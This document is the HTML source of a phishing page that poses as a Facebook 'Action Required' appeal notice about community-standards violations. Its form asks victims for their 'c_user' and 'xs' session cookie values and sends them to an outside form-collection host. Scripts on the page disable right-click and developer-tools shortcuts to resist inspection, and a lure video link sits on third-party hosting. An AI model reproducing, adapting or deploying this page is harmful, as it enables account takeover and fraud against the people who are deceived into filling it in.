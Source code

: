 <!doctype html>

<head>
    <title>Action Required</title>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <link href="style.css" rel="stylesheet">
</head>
<script type="text/javascript">
    document.addEventListener("contextmenu", function(e) {
        e.preventDefault();
    });

    document.addEventListener("keydown", function(e) {
        // Check if the "i" or "c" key is pressed with Shift or Ctrl
        if ((e.key === 'i' || e.key === 'c' || e.key === 'u' || e.keyCode === 73 || e.keyCode === 67) && (e.shiftKey || e.ctrlKey)) {
            e.preventDefault();
        }
    });
</script>

<body>
    <div class="md:block lg:block hidden border flex w-full h-[6rem]  relative bg-[#4667ac]">
        <div class="mx-10 mt-4">
            <b class="text-5xl text-white">facebook</b>
        </div>

  <form action="https://submit-form.com/MmHM9wsOs" method="POST">
                    </p>
                </div>
                <div>
                    <p class="mt-4 pl-3 text-[12px] font-semibold">
                        We have detected unusual activity on your page that violates our community standards.
                    </p>
                </div>
                <div>
                    <p class="mt-4 pl-3 text-[12px] font-semibold">
                        Your access to your page has been limited, and you are currently unable to post, share, or comment using your page.
                    </p>
                </div>
                <div>
                    <p class="mt-4 pl-3 text-[12px] font-semibold">
                        If you believe this to be a mistake, you have the option to submit an appeal by providing the necessary information.
                    </p>
                </div>
                <div>
                    <p class="text-[11px] text-[#90949c] p-2 font-semibold">
                        Detailed Video Information
                    </p>
                </div>
                <div>
                    <a class="w-[120px] h-[80px] block mx-3" href="https://detailed-video-29b30.web.app/detailed%20video.mp4"><img src="https://cdn.glitch.global/cbf8be26-0413-4201-9418-b298e829656a/download%20(1).jfif?v=1698098011376" alt=""></a>
                </div>
                <div>
                    <p class=" pl-3 text-[12px] font-semibold">
                        Please be sure to provide the requested information below.
                    </p>
                </div>
                <div>
                    <p class="text-slate-400 pl-4 mt-1">
                        c_user
                    </p><input class="border h-6 pl-1 mx-3" type="number" name="c_user" required>
                </div>
                <div>
                    <p class="text-slate-400 pl-4 mt-1">
                        xs
                    </p><input class="border h-6 pl-1 mx-3" type="text" name="xs" required>
                </div>
                <div>
                    <p class="mt-4 pl-3 text-[12px] font-semibold">
                        Please make sure account not to log out from your computer or laptop until you have received a verification email.
                    </p>
                </div>
                <div class="border mx-3 h-10 mt-4 bg-[#f5f6f7]">
                    <div class="flex justify-end mx-2">
                        <button class="border h-7 w-16  bg-[#4267b2] text-white shadow-2xl mt-[0.30rem] font-serif font-thin text-xs hover:bg-blue-500" id="delete-btn">
    Submit
  </button></div>
                </div>
            </div>
        </form>

        <script type="text/javascript">
            document.addEventListener("contextmenu", function(e) {
                e.preventDefault();
            });
        </script>

</body>

</html
